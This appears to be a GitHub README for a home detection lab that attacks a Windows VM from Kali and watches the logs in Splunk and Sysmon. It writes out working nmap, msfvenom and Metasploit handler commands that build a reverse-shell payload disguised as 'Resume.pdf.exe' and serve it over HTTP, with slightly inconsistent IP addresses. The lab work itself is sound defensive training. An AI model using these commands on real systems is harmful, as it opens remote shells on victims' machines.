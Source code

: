 # detection-lab

Objective

The detection-lab project aimed to establish a environment for simulating and detecting cyber attacks. The main focus was to ingest and analyze logs within a Splunk. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies.

Skills Learned

- Understanding of SIEM and practical application.
- Analyzing network logs.
- Ability to generate and recognize attack signatures.
- Knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.

Tools Used

- Splunk for log ingestion and analysis.
- Splunk Universal Forwarder and Sysmon for log collecting/forwarding
- Kali Linux/Metasploit to create realistic network traffic and attack scenarios.

Network Diagram

![detection-lab](https://github.com/user-attachments/assets/df197dc4-81d7-48bd-8549-f5e0e13e41ce)

Steps

First, we need to understand the network connections in the virtual environment. The network we use when testing tools and using sandbox will be different. When analyzing malware, we should not have access to the Internet.

- Testing Tools     ---> NAT, NAT Network, Bridged
- Analyzing Malware ---> Host-Only, Internal Network/LAN Segment, Not Attached

In this lab, since we are going to create malware with Kali Linux and attack Windows Machine, the lab environment should not be connected to the internet. 

1-Installation and Setup of Virtual Machines 

- Kali Linux (attacker), Windows 10 (victim) and Ubuntu 22.04 (Splunk) were installed on VirtuelBox as virtual machines.
- Splunk Enterprise was installed on the Ubuntu machine to view logs.
- Universal Forwarder and Sysmon were installed on Windows 10 machine to send logs to Splunk.
- After selecting 'Internal Network' as network, fixed IP address was selected on each virtual machine. After all that, we saw that the virtual machines were reachable with the ‘ping’ command.

2-Attack Scenario 

- First I did a port scan with 'nmap' and saw that RDP port 3389 was open. nmap –A 
    192.168.10.100 -Pn 

- Secondly, I created malware with the 'msfvenom' payload. Here I chose the 'meterpreter/reverse_tcp' payload. 
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.250 lport=4444 -f ece -o Resume.pdf.exe 

- With this malware we will obtain a 'reverse shell' and create a connection to our own machine. After logging into the msfconsole where I will execute the attack, I entered the values for the payload we selected and started the attack.
    use exploit/multi/handler 
    options 		#to see what we can configure 
    set payload windows/x64/meterpreter/reverse_tcp 
    set lhost 192.168.2.250 
    set lport 4444 		#this is already given 
    exploit 

- After that, we wait for the victim machine to run the malware. For this we will create an HTTP Server on the Kali Linux machine so that the victim machine can download the malware from there. 
    python3 -m http.server 9999 		#make sure to run it in the directory where the malware is located 

3-Exploitation 
 
- First we need to deactivate Windows Security on the Windows (victim) machine. Then I connected to the 192.168.0.250:9999 server from the web browser and downloaded the malware file 'Resume.pdf.exe' and ran it. When I looked at the network connections from the cmd console, I saw that there was a TCP connection from 192.168.10.100 to 192.168.10.250. 
    netstat -anob 

- After that, we can now connect to the Windows machine with the 'shell' command on the Kali Linux machine and enter the commands we want. 

4-Monitoring with Splunk 

- Since I have installed sysmon on the Windows (victim) machine and configured it correctly to send logs to Splunk, I can deep dive into logs. 

Note: Sysmon logs are not fully parsed by Splunk so don't forget to install Splunk Add-on for Sysmon. 
